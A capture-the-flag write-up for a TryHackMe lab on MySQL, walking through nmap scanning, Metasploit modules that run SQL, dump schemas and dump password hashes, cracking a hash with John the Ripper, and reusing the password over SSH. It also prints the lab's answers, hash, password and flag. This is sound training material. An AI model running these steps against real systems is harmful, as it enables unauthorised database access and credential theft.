```yaml
---
title:  "TryHackMe: Enumerating and Exploiting MySQL"
date:   2021-03-16 22:30:00 +1100
excerpt: Enumerating and Exploiting MySQL with Metasploit.
---
```


This is a write up for the **Enumerating and Exploiting MySQL** tasks of the [**Network Services 2**](https://tryhackme.com/room/networkservices2) room on [TryHackMe](https://tryhackme.com). Some tasks have been omitted as they do not require an answer.

***

### As always, let's start out with a port scan, so we know what port the service we're trying to attack is running on. What port is MySQL using?

Run an nmap scan on the target machine.

```
nmap -sC -sV -oA mysql <ip>
```

<img src="{{ site.baseurl }}/assets/images/2021-03-16-enumerating-and-exploiting-mysql/01-nmap.jpg">

> Answer: **3306**

### Good, now- we think we have a set of credentials. Let's double check that by manually connecting to the MySQL server. We can do this using the command "mysql -h [IP] -u [username] -p"

Attempt to connect to the server with the credentials provided.

```
mysql -h <ip> -u root -p
```

<img src="{{ site.baseurl }}/assets/images/2021-03-16-enumerating-and-exploiting-mysql/02-mysql.jpg">

### Search for, select and list the options it needs. What three options do we need to set? (in descending order).

```
msfconsole
search mysql_sql
use auxiliary/admin/mysql/mysql_sql
options
```

<img src="{{ site.baseurl }}/assets/images/2021-03-16-enumerating-and-exploiting-mysql/03-options.jpg">

> Answer: **PASSWORD/RHOSTS/USERNAME**

### Run the exploit. By default it will test with the "select version()" command, what result does this give you?

```
set PASSWORD password
set RHOSTS <ip>
set USERNAME root
run
```

<img src="{{ site.baseurl }}/assets/images/2021-03-16-enumerating-and-exploiting-mysql/04-metasploit.jpg">

> Answer: **5.7.29-0ubuntu0.18.04.1**

### Great! We know that our exploit is landing as planned. Let's try to gain some more ambitious information. Change the "sql" option to "show databases". how many databases are returned?

```
set SQL "show databases"
run
```

<img src="{{ site.baseurl }}/assets/images/2021-03-16-enumerating-and-exploiting-mysql/05-db.jpg">

> Answer: **4**

### First, let's search for and select the "mysql_schemadump" module. What's the module's full name?

```
search mysql_schemadump
```

<img src="{{ site.baseurl }}/assets/images/2021-03-16-enumerating-and-exploiting-mysql/06-schemadump.jpg">

> Answer: **auxiliary/scanner/mysql/mysql_schemadump**

### Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, run the exploit. What's the name of the last table that gets dumped?

```
use auxiliary/scanner/mysql/mysql_schemadump
options
set PASSWORD password
set RHOSTS <ip>
set USERNAME root
run
```

<img src="{{ site.baseurl }}/assets/images/2021-03-16-enumerating-and-exploiting-mysql/07-table.jpg">

> Answer: **x$waits_global_by_latency**

### Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better... search for and select the "mysql_hashdump" module. What's the module's full name?

```
search mysql_hashdump
use auxiliary/scanner/mysql/mysql_hashdump
```

<img src="{{ site.baseurl }}/assets/images/2021-03-16-enumerating-and-exploiting-mysql/08-hashdump.jpg">

> Answer: **auxiliary/scanner/mysql/mysql_hashdump**

### Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?

```
options
set PASSWORD password
set RHOSTS <ip>
set USERNAME root
run
```

<img src="{{ site.baseurl }}/assets/images/2021-03-16-enumerating-and-exploiting-mysql/09-carl.jpg">

> Answer: **carl**

### Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: bob:*HASH to a text file on your local machine called "hash.txt".

```
touch hash.txt
vi hash.txt
Ctrl+Shift+V
Shift+:
wq
```

> Answer: **carl:*EA031893AA21444B170FC2162A56978B8CEECE18**

### Now, we need to crack the password! Let's try John the Ripper against it using: "john hash.txt" what is the password of the user we found?

```
sudo john hash.txt
```

<img src="{{ site.baseurl }}/assets/images/2021-03-16-enumerating-and-exploiting-mysql/10-john.jpg">

> Answer: **doggie**

### Awesome. Password reuse is not only extremely dangerous, but extremely common. What are the chances that this user has reused their password for a different service?

```
ssh carl@<ip>
doggie
cat MySQL.txt
```

<img src="{{ site.baseurl }}/assets/images/2021-03-16-enumerating-and-exploiting-mysql/11-flag.jpg">

> Answer: **THM{congratulations_you_got_the_mySQL_flag}**

### Recap

In this task we learnt how to:
 * Use the mysql_sql exploit in **Metasploit** to enumerate the database
 * Use **John the Ripper** to crack a user's password